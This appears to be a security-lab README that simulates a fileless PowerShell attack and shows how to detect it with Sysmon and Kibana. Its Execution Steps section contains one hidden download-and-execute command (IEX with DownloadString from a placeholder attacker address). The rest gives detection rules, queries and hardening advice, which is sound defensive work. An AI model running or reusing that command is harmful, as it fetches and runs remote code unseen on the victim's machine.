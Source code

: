 # 🔧 Use Case: Fileless Malware via PowerShell (MITRE T1059.001)

---

## 📘 Scenario Summary

This simulation demonstrates a **fileless malware attack** using **PowerShell** initiated via a **spear-phishing email**. The payload is never written to disk, instead executing in memory, making it harder to detect by traditional antivirus tools.

The objective is to detect and analyze the PowerShell execution using **Sysmon**, **Winlogbeat**, **Elasticsearch**, and **Kibana**.

---

## 🧪 Attack Simulation Setup

### 🔧 Environment

* **Attacker Machine**: Kali Linux (bridged network)
* **Victim Machine**: Windows 10 Home Edition (bridged network)
* **Monitoring Stack**: Winlogbeat + Sysmon + Elasticsearch + Kibana (configured and verified)

---

## 🔪 Execution Steps

### 🔊 PowerShell Payload (Simulated)

A simple reverse shell or command execution payload in memory:

```powershell
powershell -nop -w hidden -c "IEX(New-Object Net.WebClient).DownloadString('http://<attacker.ip>/payload.ps1')"
```


### 🚀 Method of Delivery

Use a simulated phishing email or execute manually on the victim machine for lab purposes.

---

## 📊 Log Sources & Event IDs

| Event ID | Description                             | Source               |
| -------- | --------------------------------------- | -------------------- |
| 1        | Process Creation (e.g., powershell.exe) | Sysmon               |
| 4104     | PowerShell script block logging         | Sysmon   |
| 4688     | A new process has been created          | Windows Security Log |

---

## 🔍 Detection Logic

* Alert if PowerShell runs with:

  * `-nop`, `-w hidden`, `IEX`, or `DownloadString`
* Watch for script block logs containing suspicious commands (`event.code:4104`)
* Track `powershell.exe` execution from uncommon parent processes (e.g., Outlook.exe, explorer.exe)

### Kibana Query Example

```kql
event.code:4104 AND winlog.event_data.ScriptBlockText:(DownloadString OR IEX)
```

---

## 🏛️ Reverse Shell

![alt text](<Screenshot 2025-06-03 145206.png>)

---

## 🔫 Recommendations

* Disable PowerShell v2 and enforce Constrained Language Mode
* Enable PowerShell logging (module, script block, and transcription)
* Block known malicious PowerShell indicators (e.g., `DownloadString`, `IEX`, encoded commands)
* Use AppLocker or WDAC to limit script execution

---

## ⚠️ Possible False Positives

* IT scripts using automation (legit PowerShell usage)
* Monitoring tools or software installers using `Net.WebClient`


## 📆 Status Summary

| Field               | Value                       |
| ------------------- | --------------------------- |
| 🔬 Detection Tested | ✅ Yes                       |
| 💯 Detection Logic  | ✅ Working                   |
| 🛠️ Simulation Type | Manual (Fileless Execution) |
| 📆 Log Visibility   | ✅ Confirmed in Kibana       |
| 💻 Platform         | Windows 10 Home (Victim)    |

---

## 👀 Kibana Dashboard Screenshot
![alt text](<Shell log.png>)